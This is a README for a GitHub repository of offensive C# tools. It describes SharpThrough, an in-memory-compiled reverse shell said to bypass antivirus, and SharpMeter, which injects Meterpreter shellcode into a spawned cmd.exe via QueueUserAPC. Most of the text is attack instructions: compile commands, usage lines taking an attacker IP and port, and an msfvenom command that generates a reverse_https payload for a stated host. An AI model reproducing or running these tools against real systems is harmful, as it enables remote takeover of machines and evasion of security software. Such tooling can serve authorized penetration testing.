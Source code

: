 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:sharpthrough.exe Program.cs```  
```
Usage :
sharpthrough.exe IP PORT
```

## SharpMeter
Executing Meterpreter generated shellcode via QueueUserAPC:  
(create a new process, "cmd.exe" in this case, and injects and executes shellcode in process memory).  
First, generate your payload in C# format, like this :  
```msfvenom -a x64 -p windows/x64/meterpreter/reverse_https  lhost=10.200.3.163 lport=443 -f csharp -o pay.txt```  
Watch out to your architecture choice! x64 payload will only work with x64 executable version of sharpmeter.  
Do not touch generated payload format (not even the variable name)! Leave it as it is.
```
Usage :
sharpmeter.exe PATH_TO_PAYLOAD
```
An example payload (x64 format) is attached inside the project. IDE VS 2015, csproj is available.  
This program is capable of running ANY shellcode but you need to be aware of shellcode format; it has to be in "meterpreter" format, so you may eventually convert it (but it's an easy task)
